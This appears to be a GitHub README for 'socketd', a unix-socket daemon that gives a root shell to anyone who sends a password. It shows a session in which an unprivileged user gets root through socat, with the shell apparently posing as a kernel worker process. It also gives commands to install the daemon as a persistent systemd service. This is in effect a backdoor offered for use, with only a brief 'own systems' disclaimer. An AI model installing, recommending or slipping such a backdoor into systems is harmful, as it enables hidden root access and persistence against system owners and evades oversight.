 socketd
========

A simple unix socket that spawns you a shell when you send it a password.

## connecting as a client

```shell
bash-4.3$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)

bash-4.3$ socat - UNIX-CONNECT:/run/socketd.sock
knock knock m0therfucker
[kworker/0:1]: 0: can't access tty; job control turned off

[root@star.apricot.pictures]:/$ id
uid=0(root) gid=0(root) groups=0(root)
```

## installing

```shell
git clone --depth=1 https://github.com/raincoats/socketd
cd socketd
sudo make install
sudo cp socketd.service /etc/systemd/system
sudo systemctl enable socketd
sudo systemctl start socketd
```

## disclaimer

please don't be rude, install this only on your own systems
